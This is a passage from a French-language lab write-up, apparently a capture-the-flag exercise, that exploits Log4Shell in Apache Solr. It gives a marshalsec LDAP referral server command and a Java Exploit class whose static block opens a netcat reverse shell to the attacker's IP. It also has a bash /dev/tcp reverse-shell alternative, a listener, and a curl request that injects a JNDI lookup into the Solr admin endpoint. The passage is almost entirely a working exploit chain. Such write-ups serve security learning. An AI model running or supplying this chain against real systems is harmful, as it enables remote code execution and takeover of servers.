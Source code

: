 Puis
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.2.236:8000/#Exploit"
```
(`10.9.2.236` est mon IP)
"With the marshalsec utility built, we can start an LDAP referral server to direct connections to our secondary HTTP server"

### Préparation : le payload .class

Dans un répertoire www, on compile la classe Exploit.java
```
import java.io.Serializable;

public class Exploit implements Serializable {

    private static long serialVersionUID = 1L;

    static {
        try {
            Runtime.getRuntime().exec("nc 10.9.2.236 9999 -e /bin/bash");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

*Note* ici on pourrait tester avec l'autre reverse shell `bash -i >& /dev/tcp/10.9.2.236/9999 0>&1`

Avec :
```
javac Exploit.java -source 8 -target 8
```
Puis on expose le répertoire (pour le .class) avec :
```
python3 -m http.server
```

### Préparation : le listener ncat

```
nc -lnvp 9999
```

### Exécution : appel à solr

```
curl 'http://10.10.106.228:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.2.236:1389/Exploit\}'
```
(`10.10.106.228` est l'IP de la machine cible)

## Succès avec JNDIExploit
